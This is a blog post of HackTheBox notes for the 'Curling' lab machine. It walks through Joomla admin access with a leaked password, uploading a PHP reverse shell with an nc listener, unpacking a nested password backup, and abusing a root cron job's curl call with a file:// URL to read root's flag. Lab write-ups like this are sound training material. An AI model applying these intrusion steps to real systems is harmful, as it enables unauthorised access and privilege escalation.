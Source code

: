 ```yaml
---
title: HackTheBox Notes - Curling (ft. Anger)
category: infosec
date: 2019-04-01
thumbnail: curling-thumb.png
tags: htb,htb-notes
description:
---
```


Continuing from [last time](/article/htb_hawk) where I just post my notes,
today is `Curling`. Also note that today is the first of April, and my April
fools joke is that this is not an April fools joke… or is it? I jest of
course, these notes are already enough of a joke.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 09:58 AEDT
Nmap scan report for 10.10.10.150
Host is up (0.49s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.14 seconds
```
### Joomla! Site
`http://10.10.10.150`

* Has upload button at bottom of all pages
* `http://10.10.10.150/administrator/manifests/files/joomla.xml` shows version is `3.8.8`. Released May 22 2018
* Page `/secret.txt` displays `Q3VybGluZzIwMTgh`. Tried this as password on `/administrator` with user `admin` but nope.
	* It’s actually base64. Decodes into `Curling2018!`. Still doesn’t work with `admin`
	* Found username `Floris` in one of the articles. Worked with `Curling2018!`
* Looked at
[this](http://www.thehackerstore.net/2015/01/how-to-upload-shell-in-joomla-via-admin.html)
to upload a PHP shell from [this](https://github.com/pentestmonkey/php-reverse-shell)
	* Created new file in templates `hello.php` and put shellcode there
	* Run `nc -lvpn <port_number>`
	* Go to `10.10.10.150/templates/beez3/hello.php`
	* Got shell as user `www-data`

### PHP Reverse Shell
* Can’t get `user.txt` because we don’t have permissions for `~/floris` but we
can view another file `password_backup`[^1]. It’s a hexdump for something…
* This [list of file
signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) tells us the file is a `bz2` file because it has the signature `42 5A 68` at the start
* Went to `/var/www/html/bin` because the user has write permissions there
* Copied `/home/floris/password_backup`
* Reversed the hexdump back to a `bz2` file with `xxd -r password_backup password_backup.bz2`
* Decompressed the file `bzip2 -d password_backup.bz2`
* Contains the string
```
l[passwordrBZh91AY&SY6@@Pt t"dhhOPIS@68ET>P@#I |3x(*N&Hk1x"{]B@6m
```
What is this

* Did a `file` on it
`password_backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix`
Oh it’s zipped again

* Added `.gz` as a file extension and unzipped it
```bash
$ gunzip password_backup.gz
$ cat password_backup
BZh91AY&SY6@@Pt t"dhhOPIS@68ET>P@#I |3x(*N&Hk1x"{]B@6
```
WHAT THE FUCK IS THIS

* Checked `file` again
```bash
$ file password_backup
password_backup: bzip2 compressed data, block size = 900k
```
This is getting really annoying

* OK
```bash
$ mv password_backup password_backup.bz2
$ bzip2 -d password_backup.bz2
$ cat password_backup
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
```
Fucks sake
```bash
$ type password_backup
password_backup: POSIX tar archive (GNU)
```
Ugh

* Maybe this will be the last time…
```bash
$ mv password_backup password_backup.tar
$ tar -xvf password_backup.tar
password.txt
```
THIS IS IT!!!
```bash
$ cat password.txt
5d<wdCbdZu)|hChXll
```

### SSH Server
`ssh://10.10.10.150:22`

* Logged in `floris@10.10.10.150` with password `5d<wdCbdZu)|hChXll`
* Get user `cat user.txt`. What a fucking pain
- - - -
* Folder `~/admin-area` has files `input` and `report`
	* Whenever one is edited it is reverted back a while later by something
	* `ls -al` shows it’s being edited every minute. I’m, pretty sure we’re dealing with cron here
* Had a guess that a cron job was calling `curl` with a url from the file `input` and redirecting the result to `report`
	* Changed the url in input from `http://127.0.0.1` to `file:///home/floris/user.txt`
	* Wait for the start of the next minute and `report` now has the user hash. So yep, i’m right
* Changed url  to `file:///root/root.txt` (probably should have done this as
the first test)
* And now we wait…

```bash
floris@curling:~/admin-area$ date
Mon Nov  5 06:52:01 UTC 2018
floris@curling:~/admin-area$ ls -al
total 16
drwxr-x--- 2 root   floris 4096 May 22 19:04 .
drwxr-xr-x 7 floris floris 4096 Nov  5 06:51 ..
-rw-rw---- 1 root   floris   25 Nov  5 06:52 input
-rw-rw---- 1 root   floris   33 Nov  5 06:52 report
floris@curling:~/admin-area$ cat report
82c198ab6fc5365fdc6da2ee5c26064a
```

There must have been a way to find out that cron was using curl instead of pure guesswork, but oh well.

### Footnotes
[^1]:
```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```
